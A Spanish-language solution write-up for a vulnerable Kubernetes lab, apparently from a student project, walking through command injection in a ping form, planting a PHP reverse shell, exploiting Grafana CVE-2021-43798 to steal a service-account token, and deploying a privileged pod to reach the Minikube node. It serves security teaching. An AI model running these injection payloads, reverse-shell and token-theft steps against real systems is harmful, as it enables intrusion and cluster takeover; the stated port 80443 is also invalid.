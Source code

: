 # Solución del laboratorio

## Reconocimiento de la página web
Tras deplegar el laboratorio, obtenemos al dirección de una página web donde se puede hacer ping a distintas direcciones.

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png)

Como se está ejecutando el comando ping, comprobamos si se puede saltar los filtros para poder leer información del sistema(Path Traversal), por ejemplo:
```bash 
google.com;ls -l
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png)

## LFI a RCE

Como se puede observar en la imagen anterior, la página puede ser vulnerable a LFI. Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos: 

1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64. 
```bash 
base64 php-revshell.php 
``` 

2. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash 
google.com;echo "<php-revshell.php in base64>" | base64 -d > shell.php
``` 

3. Verificamos que se ha subido el archivo shell.php: 
```bash
google.com;ls -l 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)

4. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443: 
``` bash
nc -lvp 80443
```
5. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos la reverse shell del pod donde se está ejecutando el servicio web. 

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png) 

## Reconocimiento en el pod

Una vez dentro hacemos un reconocimiento en el pod: 
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí): 
```bash 
python3 -m http.server
``` 

Descargamos el binario y damos permisos de ejecución: 
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
``` 
Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png)

2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo. 
```bash 
env 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.

``` bash 
apk add curl
curl http://10.103.238.75:3000/login | grep version 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)

## Grafana Path Traversal

1. Buscamos posibles vectores de ataque. La versión de Grafana es la "8.3.0-beta2", la cual es vulnerable a Path Traversal, es decir, podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. Creamos una variable de entorno llamada token donde se encuentra el JWT del pod de Grafana.

``` bash 
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png) 

2. Comprobamos si el posible crear pods con el token de Grafana: 

``` bash 
./kubectl auth can-i create pods --token=$token
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png)

## Escalar al nodo de Minikube

Como es posible crear pods, para escalar al nodo, es posible crear un [badpods](https://github.com/BishopFox/badPods) para escalar al nodo de Minikube.  Este es el YAML que utilizaremos: [bad-pod.yaml](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/kube-lab/lab-pentest/bad-pod.yaml).

1. Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:

``` bash 
wget 192.168.1.131:8000/bad-pod.yaml 
./kubectl apply -f bad-pod.yaml --token=$token
```

2. Vemos que se ha creado es nuevo pod:

``` bash
./kubectl get pods --token=$token
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png)

3. Una vez su status esté en Running, ejecutamos el comando siguiente y obtenemos la shell del nodo.

```bash
./kubectl exec -it everything-allowed-exec-pod --token=$token -- sh
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png)


Dentro de la shell de un nodo Minikube, se puede realizar diversas operaciones para gestionar y monitorear clústeres Kubernetes locales. Utilizando comandos como kubectl para interactuar con tus aplicaciones y recursos en el clúster, por ejemplo, desplegar y escalar aplicaciones, ver logs, y ejecutar comandos en contenedores. 